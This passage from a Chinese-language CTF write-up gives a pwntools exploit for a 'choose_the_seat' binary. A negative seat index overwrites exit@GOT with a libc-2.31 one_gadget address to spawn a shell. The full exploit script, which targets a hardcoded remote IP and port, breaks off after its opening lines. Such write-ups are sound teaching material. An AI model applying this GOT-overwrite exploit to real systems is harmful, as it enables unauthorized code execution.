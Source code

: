 ### 第三步：计算one_gadget地址
```python
# 第三步：计算one_gadget地址
# 根据libc-2.31.so的one_gadget偏移
one_gadget = libc_base + 0xe3b01  # 这个偏移需要根据具体libc版本调整

log.info(f"one_gadget: {hex(one_gadget)}")
```

**解释**：
- `one_gadget` 是libc中的一个特殊gadget，可以直接执行 `execve("/bin/sh", NULL, NULL)`
- 使用 `one_gadget` 工具可以找到具体的偏移地址
- `0xe3b01` 是 `libc-2.31.so` 中一个可用的one_gadget偏移

### 第四步：修改exit@got为one_gadget
```python
# 第四步：修改exit@got为one_gadget
p.recvuntil(b'Welcome to the plane (0 to 9) please choose seat')
p.sendline(b'-6')  # 再次修改exit@got

p.recvuntil(b'you can input you name\n')
p.send(p64(one_gadget))

# 触发exit函数，执行one_gadget
p.interactive()
```

**解释**：
- 再次使用 `-6` 访问 `exit@got`
- 这次我们将 `exit@got` 修改为 `one_gadget` 的地址
- 当程序调用 `exit()` 时，会执行 `one_gadget`，获取shell
- `p.interactive()` 进入交互模式，可以执行shell命令

## 完整Exploit代码

```python
#!/usr/bin/env python3
from pwn import *
from struct import pack
import sys

# 根据参考文章分析，这是一个choose_the_seat题目
# 主要漏洞是整数溢出，通过输入负数来绕过bounds check
# 然后修改GOT表实现攻击

context.log_level = 'debug'
context(os='linux', arch='amd64')

def debug(c=0):
    if c:
        gdb.attach(p, c)
    else:
        gdb.attach(p)

# 连接到远程服务器
p = remote("110.42.47.169", 35689)
# p = process("./chall")  # 本地测试
elf = ELF("./chall")
libc = ELF("./libc-2.31.so")

def exploit():
    # 第一步：通过整数溢出修改exit函数的GOT表为main函数
    # 这样程序就不会退出，可以多次利用
    p.recvuntil(b'Welcome to the plane (0 to 9) please choose seat')
```
